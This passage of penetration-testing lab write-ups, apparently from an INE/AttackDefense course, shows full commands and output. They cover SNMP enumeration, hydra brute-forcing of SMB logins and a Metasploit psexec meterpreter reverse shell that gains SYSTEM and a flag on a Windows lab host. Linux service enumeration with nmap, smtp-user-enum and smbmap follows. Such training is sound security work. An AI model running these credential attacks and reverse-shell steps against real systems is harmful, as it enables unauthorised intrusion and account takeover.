  Email:    net-snmp-coders@lists.sourceforge.net

OPTIONS:
  -h, --help            display this help message
  -H                    display configuration file directives understood
  -v 1|2c|3             specifies SNMP version to use
  -V, --version         display package version number
SNMP Version 1 or 2c specific
  -c COMMUNITY          set the community string
SNMP Version 3 specific
  -a PROTOCOL           set authentication protocol (MD5|SHA|SHA-224|SHA-256|SHA-384|SHA-512)
  -A PASSPHRASE         set authentication protocol pass phrase
  -e ENGINE-ID          set security engine ID (e.g. 800000020109840301)
  -E ENGINE-ID          set context engine ID (e.g. 800000020109840301)
  -l LEVEL              set security level (noAuthNoPriv|authNoPriv|authPriv)
  -n CONTEXT            set context name (e.g. bridge1)
  -u USER-NAME          set security name (e.g. bert)
  -x PROTOCOL           set privacy protocol (DES|AES|AES-192|AES-256)
  -X PASSPHRASE         set privacy protocol pass phrase
  -Z BOOTS,TIME         set destination engine boots/time
General communication options
  -r RETRIES            set the number of retries
  -t TIMEOUT            set the request timeout (in seconds)
Debugging
  -d                    dump input/output packets in hexadecimal
  -D[TOKEN[,...]]       turn on debugging output for the specified TOKENs
                           (ALL gives extremely verbose debugging output)
General options
  -m MIB[:...]          load given list of MIBs (ALL loads everything)
  -M DIR[:...]          look in given list of directories for MIBs
    (default: $HOME/.snmp/mibs:/usr/share/snmp/mibs:/usr/share/snmp/mibs/iana:/usr/share/snmp/mibs/ietf)
  -P MIBOPTS            Toggle various defaults controlling MIB parsing:
                          u:  allow the use of underlines in MIB symbols
                          c:  disallow the use of "--" to terminate comments
                          d:  save the DESCRIPTIONs of the MIB objects
                          e:  disable errors when MIB symbols conflict
                          w:  enable warnings when MIB symbols conflict
                          W:  enable detailed warnings when MIB symbols conflict
                          R:  replace MIB symbols from latest module
  -O OUTOPTS            Toggle various defaults controlling output display:
                          0:  print leading 0 for single-digit hex characters
                          a:  print all strings in ascii format
                          b:  do not break OID indexes down
                          e:  print enums numerically
                          E:  escape quotes in string indices
                          f:  print full OIDs on output
                          n:  print OIDs numerically
                          p PRECISION:  display floating point values with specified PRECISION (printf format string)
                          q:  quick print for easier parsing
                          Q:  quick print with equal-signs
                          s:  print only last symbolic element of OID
                          S:  print MIB module-id plus last element
                          t:  print timeticks unparsed as numeric integers
                          T:  print human-readable text along with hex strings
                          u:  print OIDs using UCD-style prefix suppression
                          U:  don't print units
                          v:  print values only (not OID = value)
                          x:  print all strings in hex format
                          X:  extended index format
  -I INOPTS             Toggle various defaults controlling input parsing:
                          b:  do best/regex matching to find a MIB node
                          h:  don't apply DISPLAY-HINTs
                          r:  do not check values for range/type legality
                          R:  do random access to OID labels
                          u:  top-level OIDs must have '.' prefix (UCD-style)
                          s SUFFIX:  Append all textual OIDs with SUFFIX before parsing
                          S PREFIX:  Prepend all textual OIDs with PREFIX before parsing
  -L LOGOPTS            Toggle various defaults controlling logging:
                          e:           log to standard error
                          o:           log to standard output
                          n:           don't log at all
                          f file:      log to the specified file
                          s facility:  log to syslog (via the specified facility)

                          (variants)
                          [EON] pri:   log to standard error, output or /dev/null for level 'pri' and above
                          [EON] p1-p2: log to standard error, output or /dev/null for levels 'p1' to 'p2'
                          [FS] pri token:    log to file/syslog for level 'pri' and above
                          [FS] p1-p2 token:  log to file/syslog for levels 'p1' to 'p2'
  -C APPOPTS            Set various application specific behaviours:
                          p:  print the number of variables found
                          i:  include given OID in the search range
                          I:  don't include the given OID, even if no results are returned
                          c:  do not check returned OIDs are increasing
                          t:  Display wall-clock time to complete the walk
                          T:  Display wall-clock time to complete each request
                          E {OID}:  End the walk at the specified OID
```

`snmpwalk -v 1 -c public demo.ine.local`:
```
iso.3.6.1.2.1.1.1.0 = STRING: "Hardware: Intel64 Family 6 Model 85 Stepping 7 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 17763 Multiprocessor Free)"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3.1.2
iso.3.6.1.2.1.1.3.0 = Timeticks: (129195) 0:21:31.95
iso.3.6.1.2.1.1.4.0 = ""
iso.3.6.1.2.1.1.5.0 = STRING: "AttackDefense"

[...]

iso.3.6.1.2.1.4.20.1.1.10.4.17.179 = IpAddress: 10.4.17.179
iso.3.6.1.2.1.4.20.1.1.127.0.0.1 = IpAddress: 127.0.0.1
iso.3.6.1.2.1.4.20.1.2.10.4.17.179 = INTEGER: 8
iso.3.6.1.2.1.4.20.1.2.127.0.0.1 = INTEGER: 1
iso.3.6.1.2.1.4.20.1.3.10.4.17.179 = IpAddress: 255.255.240.0
iso.3.6.1.2.1.4.20.1.3.127.0.0.1 = IpAddress: 255.0.0.0
iso.3.6.1.2.1.4.20.1.4.10.4.17.179 = INTEGER: 1
iso.3.6.1.2.1.4.20.1.4.127.0.0.1 = INTEGER: 1
iso.3.6.1.2.1.4.20.1.5.10.4.17.179 = INTEGER: 65535
iso.3.6.1.2.1.4.20.1.5.127.0.0.1 = INTEGER: 65535
iso.3.6.1.2.1.4.21.1.1.0.0.0.0 = IpAddress: 0.0.0.0
iso.3.6.1.2.1.4.21.1.1.10.4.16.0 = IpAddress: 10.4.16.0
iso.3.6.1.2.1.4.21.1.1.10.4.17.179 = IpAddress: 10.4.17.179
iso.3.6.1.2.1.4.21.1.1.10.4.31.255 = IpAddress: 10.4.31.255
iso.3.6.1.2.1.4.21.1.1.127.0.0.0 = IpAddress: 127.0.0.0
iso.3.6.1.2.1.4.21.1.1.127.0.0.1 = IpAddress: 127.0.0.1
iso.3.6.1.2.1.4.21.1.1.127.255.255.255 = IpAddress: 127.255.255.255
iso.3.6.1.2.1.4.21.1.1.169.254.169.123 = IpAddress: 169.254.169.123
iso.3.6.1.2.1.4.21.1.1.169.254.169.249 = IpAddress: 169.254.169.249
iso.3.6.1.2.1.4.21.1.1.169.254.169.250 = IpAddress: 169.254.169.250
iso.3.6.1.2.1.4.21.1.1.169.254.169.251 = IpAddress: 169.254.169.251
iso.3.6.1.2.1.4.21.1.1.169.254.169.253 = IpAddress: 169.254.169.253
iso.3.6.1.2.1.4.21.1.1.169.254.169.254 = IpAddress: 169.254.169.254
iso.3.6.1.2.1.4.21.1.1.224.0.0.0 = IpAddress: 224.0.0.0
iso.3.6.1.2.1.4.21.1.1.255.255.255.255 = IpAddress: 255.255.255.255

[...]

iso.3.6.1.2.1.25.4.2.1.2.1 = STRING: "System Idle Process"
iso.3.6.1.2.1.25.4.2.1.2.4 = STRING: "System"
iso.3.6.1.2.1.25.4.2.1.2.84 = STRING: "Registry"
iso.3.6.1.2.1.25.4.2.1.2.260 = STRING: "smss.exe"
iso.3.6.1.2.1.25.4.2.1.2.364 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.372 = STRING: "csrss.exe"
iso.3.6.1.2.1.25.4.2.1.2.440 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.448 = STRING: "csrss.exe"
iso.3.6.1.2.1.25.4.2.1.2.468 = STRING: "wininit.exe"
iso.3.6.1.2.1.25.4.2.1.2.536 = STRING: "winlogon.exe"
iso.3.6.1.2.1.25.4.2.1.2.580 = STRING: "services.exe"
iso.3.6.1.2.1.25.4.2.1.2.600 = STRING: "lsass.exe"
iso.3.6.1.2.1.25.4.2.1.2.704 = STRING: "fontdrvhost.exe"
iso.3.6.1.2.1.25.4.2.1.2.708 = STRING: "fontdrvhost.exe"
iso.3.6.1.2.1.25.4.2.1.2.748 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.788 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.836 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.880 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.884 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.936 = STRING: "dwm.exe"
iso.3.6.1.2.1.25.4.2.1.2.996 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1020 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1044 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1164 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1176 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1184 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1196 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1204 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1220 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1280 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1324 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1332 = STRING: "msdtc.exe"
iso.3.6.1.2.1.25.4.2.1.2.1388 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1424 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1436 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1448 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1480 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1512 = STRING: "sihost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1560 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1652 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1692 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1716 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1784 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1796 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.1872 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2044 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2052 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2060 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2076 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2084 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2096 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2160 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2308 = STRING: "spoolsv.exe"
iso.3.6.1.2.1.25.4.2.1.2.2412 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2420 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2428 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2436 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2444 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2456 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2468 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2520 = STRING: "snmp.exe"
iso.3.6.1.2.1.25.4.2.1.2.2588 = STRING: "amazon-ssm-agent.exe"
iso.3.6.1.2.1.25.4.2.1.2.2776 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.2844 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.3180 = STRING: "pHvyEeWC.exe"
iso.3.6.1.2.1.25.4.2.1.2.3216 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.3224 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.3396 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.3500 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.3524 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.3572 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.3636 = STRING: "ctfmon.exe"
iso.3.6.1.2.1.25.4.2.1.2.3740 = STRING: "explorer.exe"
iso.3.6.1.2.1.25.4.2.1.2.3828 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.3856 = STRING: "YrUUtFFf.exe"
iso.3.6.1.2.1.25.4.2.1.2.3956 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.4008 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.4028 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.4052 = STRING: "taskhostw.exe"
iso.3.6.1.2.1.25.4.2.1.2.4108 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.4256 = STRING: "ShellExperienceHost.exe"
iso.3.6.1.2.1.25.4.2.1.2.4352 = STRING: "svchost.exe"
iso.3.6.1.2.1.25.4.2.1.2.4360 = STRING: "SearchUI.exe"
iso.3.6.1.2.1.25.4.2.1.2.4396 = STRING: "RuntimeBroker.exe"
iso.3.6.1.2.1.25.4.2.1.2.4556 = STRING: "vds.exe"
iso.3.6.1.2.1.25.4.2.1.2.4564 = STRING: "RuntimeBroker.exe"
iso.3.6.1.2.1.25.4.2.1.2.4764 = STRING: "RuntimeBroker.exe"
iso.3.6.1.2.1.25.4.2.1.2.5008 = STRING: "WmiPrvSE.exe"

[...]

iso.3.6.1.2.1.25.6.3.1.5.1 = Hex-STRING: 07 E4 0B 07 07 2F 1A 00 
iso.3.6.1.2.1.25.6.3.1.5.2 = Hex-STRING: 07 E4 0B 07 07 2F 1A 00 
iso.3.6.1.2.1.25.6.3.1.5.3 = Hex-STRING: 07 E4 06 0A 05 25 30 00 
iso.3.6.1.2.1.25.6.3.1.5.4 = Hex-STRING: 07 E4 09 09 03 26 26 00 
iso.3.6.1.2.1.25.6.3.1.5.5 = Hex-STRING: 07 E4 09 09 03 27 0C 00 
iso.3.6.1.2.1.25.6.3.1.5.6 = Hex-STRING: 07 E4 09 09 03 26 2A 00 
iso.3.6.1.2.1.25.6.3.1.5.7 = Hex-STRING: 07 E4 09 09 03 2D 04 00 
iso.3.6.1.2.1.31.1.1.1.1.1 = STRING: "loopback_0"
iso.3.6.1.2.1.31.1.1.1.1.2 = STRING: "tunnel_32514"
iso.3.6.1.2.1.31.1.1.1.1.3 = STRING: "tunnel_32513"
iso.3.6.1.2.1.31.1.1.1.1.4 = STRING: "ethernet_32769"
iso.3.6.1.2.1.31.1.1.1.1.5 = STRING: "ethernet_32768"
iso.3.6.1.2.1.31.1.1.1.1.6 = STRING: "tunnel_32512"
iso.3.6.1.2.1.31.1.1.1.1.7 = STRING: "ethernet_32770"
iso.3.6.1.2.1.31.1.1.1.1.8 = STRING: "ethernet_32771"
iso.3.6.1.2.1.31.1.1.1.1.9 = STRING: "ethernet_0"
iso.3.6.1.2.1.31.1.1.1.1.10 = STRING: "ethernet_1"
iso.3.6.1.2.1.31.1.1.1.1.11 = STRING: "ethernet_2"

[...]
```

`vim ./target_users.txt`:
```
administrator
admin
```

`hydra -L ./target_users.txt -U /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb`:
```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-29 11:32:20
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 2018 login tries (l:2/p:1009), ~2018 tries per task
[DATA] attacking smb://demo.ine.local:445/
[445][smb] host: demo.ine.local   login: administrator   password: elizabeth ←
[445][smb] host: demo.ine.local   login: admin   password: tinkerbell ←
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-29 11:32:24
```

`msfconsole -q`

`search psexec`, `use exploit/windows/smb/psexec`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo.ine.local`, `set SMBUser administrator`, `set SMBPass elizabeth`, `set LHOST 10.10.46.2`, `set LPORT 4444`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.46.2:4444 ←
[*] 10.4.17.179:445 - Connecting to the server...
[*] 10.4.17.179:445 - Authenticating to 10.4.17.179:445 as user 'administrator'...
[*] 10.4.17.179:445 - Selecting PowerShell target
[*] 10.4.17.179:445 - Executing the payload...
[*] Sending stage (175174 bytes) to 10.4.17.179
[*] Meterpreter session 1 opened (10.10.46.2:4444 -> 10.4.17.179:49856 ) at 2024-08-29 11:59:07 +0530 ←
```

`sessions`, `sessions -i 1`

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

`where /r C:\\ "*flag*"`:
```
C:\FLAG1.txt ←
```

`cat C:\\FLAG1.txt`:
```
a8f5f167f44f4964e6c998dee827110c ←
```

### Linux Service Enumeration (with Nmap, SMTP-user-enum, smbmap, rpcclient, Metasploit, finger-user-enum) - Lab

#### Lab Environment

This exercise will help you understand how to perform enumeration on the remote Linux systems to find vulnerable services, valid users and enumerate the benefits of finding juicy information.

In this lab environment, the user will access a Kali GUI instance.
A vulnerable application can be accessed using the tools installed on Kali on:
	- `demo.ine.local`
	- `demo2.ine.local`
	- `demo3.ine.local`
	- `demo4.ine.local`.

Dictionaries to use:
- `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
- `/usr/share/metasploit-framework/data/wordlists/unix_users.txt`.

The best tools for this lab are:
	- Nmap
	- SMTP-user-enum
	- finger-user-enum
	- rpcclient
	- enum4linux
	- Bash shell
	- smbmap
	- Metasploit Framework.

#### Lab Solution

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.7  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:07  txqueuelen 0  (Ethernet)
        RX packets 616  bytes 74853 (73.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 520  bytes 1793726 (1.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.5.159.2  netmask 255.255.255.0  broadcast 192.5.159.255 ←
        ether 02:42:c0:05:9f:02  txqueuelen 0  (Ethernet)
        RX packets 60  bytes 7580 (7.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1766  bytes 16380779 (15.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1766  bytes 16380779 (15.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping -a -g 192.5.159.0/24 2> /dev/null`:
```
192.5.159.1
192.5.159.2
192.5.159.3 ←
192.5.159.4 ←
192.5.159.5 ←
192.5.159.6 ←
```

`cat /etc/hosts`:
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.1.0.7        INE
127.0.0.1 AttackDefense-Kali
192.5.159.2     INE
192.5.159.2     attacker
192.5.159.3     target-1 ←
192.5.159.4     target-2 ←
192.5.159.5     target-3 ←
192.5.159.6     target-4 ←
192.5.159.2 INE
192.5.159.3 demo.ine.local
192.5.159.4 demo2.ine.local
192.5.159.5 demo3.ine.local
192.5.159.6 demo4.ine.local
```

`vim ./target_hosts.txt`:
```
target-1 ←
target-2 ←
target-3 ←
target-4 ←
```

`nmap -Pn -sS -sV -p- -T4 -iL ./target_hosts.txt`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-28 18:02 IST
Nmap scan report for target-1 (192.5.159.3) ←
Host is up (0.000023s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd ←
MAC Address: 02:42:C0:05:9F:03 (Unknown)
Service Info: Host: demo.ine.local

Nmap scan report for target-2 (192.5.159.4) ←
Host is up (0.000022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS) ←
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS) ←
MAC Address: 02:42:C0:05:9F:04 (Unknown)
Service Info: Host: SAMBA-RECON

Nmap scan report for target-3 (192.5.159.5) ←
Host is up (0.000022s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
79/tcp open  finger  Linux fingerd ←
MAC Address: 02:42:C0:05:9F:05 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for target-4 (192.5.159.6) ←
Host is up (0.000022s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c ←
MAC Address: 02:42:C0:05:9F:06 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 4 IP addresses (4 hosts up) scanned in 22.05 seconds
```

<span style="color: #64b5f6;">**Target (`target-1`) machine enumeration**</span>.

```
Nmap scan report for target-1 (192.5.159.3) ←
Host is up (0.000023s latency).
PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd ←
```

`ls -alps /usr/share/namp/scripts/ | grep -e "smtp"`:
```
smtp-brute.nse
smtp-commands.nse ←
smtp-enum-users.nse
smtp-ntlm-info.nse
smtp-open-relay.nse
smtp-strangeport.nse
smtp-vuln-cve2010-4344.nse
smtp-vuln-cve2011-1720.nse
smtp-vuln-cve2011-1764.nse
```

`nmap -sS --script=smtp-commands -p25 target-1`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-28 18:40 IST
Nmap scan report for target-1 (192.5.159.3)
Host is up (0.000075s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-commands: demo.ine.local, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8 ←
MAC Address: 02:42:C0:05:9F:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
```

`smtp-user-enum -h`:
```
Usage: smtp-user-enum [-OPTIONS [-MORE_OPTIONS]] [--] [PROGRAM_ARG1 ...]

The following single-character options are accepted:
        With arguments: -m -u -U -s -S -r -t -T -M -f -D -p -w
        Boolean (without arguments): -d -v -h

Options may be merged together.  -- stops processing of options.
Space is not required between options and their arguments.
  [Now continuing due to backward compatibility and excessive paranoia.
   See 'perldoc Getopt::Std' about $Getopt::Std::STANDARD_HELP_VERSION.]
smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

Usage: smtp-user-enum [options] ( -u username | -U file-of-usernames ) ( -t host | -T file-of-targets )

options are:
        -m n     Maximum number of processes (default: 5)
        -M mode  Method to use for username guessing EXPN, VRFY or RCPT (default: VRFY) ←
        -u user  Check if user exists on remote system
        -f addr  MAIL FROM email address.  Used only in "RCPT TO" mode (default: user@example.com)
        -D dom   Domain to append to supplied user list to make email addresses (Default: none)
                 Use this option when you want to guess valid email addresses instead of just usernames
                 e.g. "-D example.com" would guess foo@example.com, bar@example.com, etc.  Instead of 
                      simply the usernames foo and bar.
        -U file  File of usernames to check via smtp service ←
        -t host  Server host running smtp service ←
        -T file  File of hostnames running the smtp service
        -p port  TCP port on which smtp service runs (default: 25)
        -d       Debugging output
        -w n     Wait a maximum of n seconds for reply (default: 5)
        -v       Verbose
        -h       This help message

Also see smtp-user-enum-user-docs.pdf from the smtp-user-enum tar ball.

Examples:

$ smtp-user-enum -M VRFY -U users.txt -t 10.0.0.1 ←
$ smtp-user-enum -M EXPN -u admin1 -t 10.0.0.1
$ smtp-user-enum -M RCPT -U users.txt -T mail-server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 10.0.0.1
```

`smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/common_users.txt -t target-1`:
```
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/metasploit-framework/data/wordlists/common_users.txt
Target count ............. 1
Username count ........... 8
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Aug 28 18:10:58 2024 #########
target-1: demo exists ←
target-1: rooty exists ←
target-1: sysadmin exists ←
target-1: administrator exists ←
target-1: anon exists ←
target-1: auditor exists ←
target-1: diag exists ←
######## Scan completed at Wed Aug 28 18:10:58 2024 #########
7 results.

8 queries in 1 seconds (8.0 queries / sec)
```

`vim ./target-1_users.txt`:
```
demo
rooty
sysadmin
administrator
anon
auditor
diag
```

<span style="color: #81c784;">**Target (`target-2`) machine enumeration**</span>.

```
Nmap scan report for target-2 (192.5.159.4) ←
Host is up (0.000022s latency).
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS) ←
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS) ←
```

`ls -alps /usr/share/namp/scripts/ | grep -e "smb"`:
```
smb2-capabilities.nse
smb2-security-mode.nse
smb2-time.nse
smb2-vuln-uptime.nse
smb-brute.nse
smb-double-pulsar-backdoor.nse
smb-enum-domains.nse
smb-enum-groups.nse
smb-enum-processes.nse
smb-enum-services.nse
smb-enum-sessions.nse
smb-enum-shares.nse
smb-enum-users.nse ←
smb-flood.nse
smb-ls.nse
smb-mbenum.nse
smb-os-discovery.nse
smb-print-text.nse
smb-protocols.nse
smb-psexec.nse
smb-security-mode.nse
smb-server-stats.nse
smb-system-info.nse
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-cve-2017-7494.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-ms17-010.nse
smb-vuln-regsvc-dos.nse
smb-vuln-webexec.nse
smb-webexec-exploit.nse
```

`nmap -sS --script=smb-enum-users -p139,445 target-2`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-28 18:47 IST
Nmap scan report for target-2 (192.5.159.4)
Host is up (0.000067s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:42:C0:05:9F:04 (Unknown)

Host script results:
| smb-enum-users: 
|   SAMBA-RECON\admin (RID: 1005) ←
|     Full name:   
|     Description: 
|     Flags:       Normal user account
|   SAMBA-RECON\aisha (RID: 1004) ←
|     Full name:   
|     Description: 
|     Flags:       Normal user account
|   SAMBA-RECON\elie (RID: 1002) ←
|     Full name:   
|     Description: 
|     Flags:       Normal user account
|   SAMBA-RECON\emma (RID: 1003) ←
|     Full name:   
|     Description: 
|     Flags:       Normal user account
|   SAMBA-RECON\john (RID: 1000) ←
|     Full name:   
|     Description: 
|     Flags:       Normal user account
|   SAMBA-RECON\shawn (RID: 1001) ←
|     Full name:   
|     Description: 
|_    Flags:       Normal user account

Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
```

`smbmap -h`:
```
usage: smbmap [-h] (-H HOST | --host-file FILE) [-u USERNAME] [-p PASSWORD] [-s SHARE] [-d DOMAIN] [-P PORT] [-v] [--admin] [-x COMMAND]
              [--mode CMDMODE] [-L | -R [PATH] | -r [PATH]] [-A PATTERN | -g] [--dir-only] [--no-write-check] [-q] [--depth DEPTH]
              [--exclude SHARE [SHARE ...]] [-F PATTERN] [--search-path PATH] [--search-timeout TIMEOUT] [--download PATH] [--upload SRC DST]
              [--delete PATH TO FILE] [--skip]

SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com

optional arguments:
  -h, --help            show this help message and exit

Main arguments:
  -H HOST               IP of host ←
  --host-file FILE      File containing a list of hosts
  -u USERNAME           Username, if omitted null session assumed
  -p PASSWORD           Password or NTLM hash
  -s SHARE              Specify a share (default C$), ex 'C$'
  -d DOMAIN             Domain name (default WORKGROUP)
  -P PORT               SMB port (default 445)
  -v                    Return the OS version of the remote host
  --admin               Just report if the user is an admin

Command Execution:
  Options for executing commands on the specified host

  -x COMMAND            Execute a command ex. 'ipconfig /all'
  --mode CMDMODE        Set the execution method, wmi or psexec, default wmi

Shard drive Search:
  Options for searching/enumerating the share of the specified host(s)

  -L                    List all drives on the specified host
  -R [PATH]             Recursively list dirs, and files (no share\path lists ALL shares), ex. 'C$\Finance'
  -r [PATH]             List contents of directory, default is to list root of all shares, ex. -r 'C$\Documents and
                        Settings\Administrator\Documents'
  -A PATTERN            Define a file name pattern (regex) that auto downloads a file on a match (requires -R or -r), not case sensitive, ex
                        '(web|global).(asax|config)'
  -g                    Make the output grep friendly, used with -r or -R (otherwise it outputs nothing)
  --dir-only            List only directories, ommit files.
  --no-write-check      Skip check to see if drive grants WRITE access.
  -q                    Quiet verbose output. Only shows shares you have READ or WRITE on, and suppresses file listing when performing a search
                        (-A).
  --depth DEPTH         Traverse a directory tree to a specific depth. Default is 5.
